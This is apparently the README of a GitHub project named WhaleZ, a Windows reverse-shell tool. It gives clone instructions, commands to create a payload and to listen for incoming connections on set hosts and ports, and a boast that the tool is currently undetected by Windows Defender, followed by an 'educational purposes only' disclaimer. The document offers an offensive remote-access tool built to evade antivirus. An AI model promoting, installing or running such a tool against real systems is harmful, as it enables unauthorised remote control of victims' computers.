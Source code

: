 # WhaleZ

- Installation
  + --> git clone https://github.com/dropsie/WhaleZ-Reverse-shell.git <--
  
- Usage
  - Create Payload
    --> .\WhaleZ.exe --create <--
  - Wait for a Connection
    --> .\WhaleZ.exe [-l|--lhost] 192.168.0.21 [-r|--rhost] 192.168.0.67 [-p|--port] 40404
    - Help 
      + [-l|--lhost] --> set lhost
      + [-r|--rhost] --> set rhost
      + [-p|--lport] --> set lport

- Version
  + Version: 1.0.0.5

++Currently: WD: Undetected (will change in a Period of time (probably))

**Please use this Tool for Educational purposes only**
